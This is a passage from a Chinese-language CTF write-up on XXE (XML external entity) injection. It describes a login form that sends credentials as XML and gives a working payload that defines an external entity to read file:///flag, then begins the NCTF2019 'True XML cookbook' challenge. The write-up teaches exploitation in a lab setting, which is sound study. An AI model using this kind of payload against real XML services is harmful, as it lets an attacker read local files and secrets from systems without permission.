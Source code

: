 ```javascript
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

emm.....JavaScript学得不是很多,看不懂代码,但是可以看出数据是以XML形式传输的,而且数据为:

<user><username>" + username + "</username><password>" + password + "</password></user>

抓包也可以看到我们传输的数据

![image-20210304181102462](初探xxe/image-20210304181102462.png)

发现他会返回我们的username的值,后台代码大概是echo $xml->msg 之类的

payload:

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<user><username>&xxe;</username><password>2</password></user>
```

## [NCTF2019]True XML cookbook

还是和上一道题一样的,读取一下flag文件,发现报错

<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/html/doLogin.php:16) in <b>/var/www/html/doLogin.php</b> on line \<b>31\</b>
